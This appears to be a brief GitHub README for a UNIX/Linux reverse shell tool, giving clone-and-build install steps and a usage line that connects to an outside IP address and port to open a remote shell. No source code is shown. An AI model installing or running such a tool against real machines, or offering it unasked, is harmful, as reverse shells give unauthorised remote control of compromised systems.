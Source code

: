 Description
===========

	The reverse shell for remote access.

Requests
========
	OS: UNIX/LINUX

install
=======

	git clone https://github.com/ErilinAleksei/Shell.git
	cd /Shell/reverseShell
	make
	make install

Using
=====

	EXAMPLES:
		reverseShell 192.168.10.150 2035
